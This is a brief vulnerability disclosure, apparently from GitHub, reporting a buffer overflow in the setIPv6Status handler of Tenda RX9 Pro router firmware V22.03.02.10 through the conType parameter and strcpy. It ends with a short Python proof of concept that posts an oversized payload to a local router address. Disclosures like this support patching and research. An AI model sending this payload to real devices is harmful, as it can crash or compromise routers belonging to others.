

# buffer overflow

## Tenda_RX9_Pro

version: V22.03.02.10

## Description:

There is a buffer overflow in httpd/setIPv6Status

## Source:

you may download it from : https://www.tendacn.com/download/detail-4218.html

## Analyse:




get value from conType and call strcpy, cause buff overflow


## POC
```
url = "http://192.168.1.13/goform/setIPv6Status"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'conType': payload})
```
